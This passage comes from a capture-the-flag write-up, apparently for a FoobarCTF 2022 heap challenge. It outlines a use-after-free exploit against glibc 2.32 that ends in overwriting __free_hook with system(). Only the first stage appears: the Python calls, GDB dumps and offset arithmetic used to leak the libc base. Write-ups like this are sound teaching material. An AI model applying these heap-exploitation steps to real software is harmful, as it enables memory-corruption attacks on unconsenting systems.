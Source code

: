 - Summary:
  1. Leak main arena address
  2. Leak heap address
  3. Overwrite forward pointer
  4. Overwrite `__free_hook` with system()

## 3. Exploit

Before we exploit, I wrote these function for a convinient exploitation:

<details><summary>Code snippet</summary></details>

And now let’s start!

### Stage 1: Leak main arena address

First, we will create a large chunk and then free it to make it go to unsorted bin:

```
add(0, 0x1000, '{}'.format(0).encode()*8)
add(1, 0x10, '{}'.format(1).encode()*8)
free(0)
```

Check in GDB and we can see that the main arena address contains null byte at LSB:

![unsortedbin_null_byte.png](/static/images/foobar-ctf-2022/images/unsortedbin_null_byte.png)

And we know that puts() will stop at null byte, so we cannot print that address out. We will try to put it into the large bin to see if it’s different:

```py
add(0, 0x1100, '{}'.format(2).encode()*8)
```

And check again, we see that there is no null byte in the address anymore:

![large_bin_not_null_byte.png](/static/images/foobar-ctf-2022/images/large_bin_not_null_byte.png)

And below the libc main arena address is the heap forward and backward pointer but we won't use this chunk to leak that heap address. Just libc is enough.

So we just leak the libc address out with the bug **Use After Free**, then calculate the offset and take the leaked address subtract with offset, we will get the libc base address:

```
gef➤  x/10xg 0x1b882a0-0x10
0x1b88290:  0x0000000000000000  0x0000000000001011
0x1b882a0:  0x00007f4a4b3d9220  0x00007f4a4b3d9220
0x1b882b0:  0x0000000001b88290  0x0000000001b88290
0x1b882c0:  0x0000000000000000  0x0000000000000000
0x1b882d0:  0x0000000000000000  0x0000000000000000

gef➤  vmmap
[ Legend:  Code | Heap | Stack ]
Start              End                Offset             Perm Path
...
0x0000000000404000 0x0000000000405000 0x0000000000004000 rw- /home/nguyenhuutri/CTF/FoobarCTF/deathnote/dist/dnote_patched
0x0000000001b88000 0x0000000001ba9000 0x0000000000000000 rw- [heap]
0x00007f4a4b212000 0x00007f4a4b214000 0x0000000000000000 rw-
0x00007f4a4b214000 0x00007f4a4b23a000 0x0000000000000000 r-- /home/nguyenhuutri/CTF/FoobarCTF/deathnote/dist/libc-2.32.so
0x00007f4a4b23a000 0x00007f4a4b388000 0x0000000000026000 r-x /home/nguyenhuutri/CTF/FoobarCTF/deathnote/dist/libc-2.32.so
...

gef➤  p/x 0x00007f4a4b3d9220 - 0x00007f4a4b214000
$1 = 0x1c5220
```